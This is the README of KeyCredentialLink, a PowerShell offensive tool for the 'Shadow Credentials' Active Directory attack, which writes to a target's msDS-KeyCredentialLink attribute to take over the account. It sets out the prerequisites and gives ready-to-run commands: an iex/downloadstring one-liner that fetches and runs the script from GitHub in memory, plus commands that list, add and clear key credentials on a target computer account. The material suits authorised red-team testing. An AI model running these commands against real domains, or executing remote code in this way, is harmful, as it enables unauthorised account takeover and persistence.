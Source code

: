 # KeyCredentialLink
Add Shadow Credentials to a target object by editing their msDS-KeyCredentialLink attribute

This tool is heavily inspired to [Whisker](https://github.com/eladshamir/Whisker) by Elad Shamir ([@elad_shamir](https://twitter.com/elad_shamir)).

This tool is based on code from [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) by Michael Grafnetter ([@MGrafnetter](https://twitter.com/MGrafnetter)).

For this attack to succeed, the environment must have a Domain Controller running at least Windows Server 2016, and the Domain Controller must have a server authentication certificate to allow for PKINIT Kerberos authentication.

Also, you need the necessary rights to edit the msDS-KeyCredentialLink attribute of the specified target.

More details are available at the post [Shadow Credentials: Abusing Key Trust Account Mapping for Takeover](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab).

## Usage
### Load the tool in memory
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/KeyCredentialLink/main/KeyCredentialLink.ps1')
```

### List all the values of the the msDS-KeyCredentialLink attribute of a target object
```
List-KeyCredentials -target "ABUSECOMP$" -domain "ferrari.local" -dc "dc01.ferrari.local"
```

### Add a new value to the msDS-KeyCredentialLink attribute of a target object
```
Add-KeyCredentials -target "ABUSECOMP$" -domain "ferrari.local" -dc "dc01.ferrari.local"
```

### Remove a value from the msDS-KeyCredentialLink attribute of a target object
```
Clear-KeyCredentials -target "ABUSECOMP$" -domain "ferrari.local" -dc "dc01.ferrari.local" -deviceId "<deviceID>"
```

### Clear all the values of the the msDS-KeyCredentialLink attribute of a target object
```
Clear-KeyCredentials -target "ABUSECOMP$" -domain "ferrari.local" -dc "dc01.ferrari.local" -Force
```
⚠️ Warning: Clearing all keys from msDS-KeyCredentialLink is a risky operation, as it will break legitimate passwordless authentication.
